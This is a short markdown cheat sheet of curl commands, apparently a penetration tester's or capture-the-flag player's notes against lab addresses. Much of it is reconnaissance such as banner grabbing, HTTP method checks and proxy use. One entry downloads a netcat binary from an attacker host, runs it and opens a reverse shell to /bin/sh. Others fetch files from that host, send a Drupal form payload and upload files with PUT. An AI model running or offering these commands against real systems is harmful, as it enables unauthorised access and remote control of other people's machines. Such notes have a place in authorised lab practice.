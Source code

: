 ## Send Data values

```
curl -k -i "http://10.10.10.9/?q=file/ajax/name/%23value/${form_build_id}" --data "form_build_id=${form_build_id}"
```

## Set Timeout

```
curl --connect-timeout 3 10.10.14.31:443/a.txt > /tmp/cat.txt
```

## Download nc using curl and execute it

```
curl --connect-timeout 3 10.10.14.31:443/nc > /tmp/nc; chmod +x /tmp/nc; /tmp/nc 10.10.14.31 3333 -e /bin/sh
```

## Banner Grabbing with curl (Alsd get web headers from this!!!!)

```
# For websites or web servers:

curl -s -I 10.10.10.11:8500

# For Other things on Ports:

curl 10.10.10.11:22

```

## Check to see if bad http methods are implemented

```
curl -sIX TRACE $TARGET

# OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
```

## Set user agent

```
curl --user-agent "user agent" url
```

## Use proxy and to get options

```
curl --proxy 127.0.0.1:8080 -sI -X OPTIONS http://10.10.10.56

```

## Put files on servers if it allows you to:

```
curl -X PUT http://192.168.30.97:8080/hello.txt -d @- < hello.txt

```

## Check SOCKS 5 Proxy

```
curl --socks5-hostname localhost:2222 ifconfig.me
```